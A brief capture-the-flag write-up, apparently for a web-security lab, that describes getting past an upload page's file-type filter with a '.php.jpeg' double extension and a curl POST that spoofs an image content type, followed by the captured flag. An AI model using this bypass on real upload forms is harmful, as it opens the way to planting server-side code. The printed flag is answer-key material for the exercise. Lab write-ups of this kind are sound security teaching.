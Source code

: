 in the uplaod page, we tried to upload an image with all of formats, and it dos not accept any of them, we tried also the .js and .php, till we found that its accepting the .php.jpeg file format, but still there was no flag, we make a post method using curl in this command 
"curl -X POST -H 'Content-Type: multipart/form-data' --form 'Upload=Upload' --form 'uploaded=@m.php.jpeg;type=image/jpeg' http://localhost/?page=upload"

and we got the flag

The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8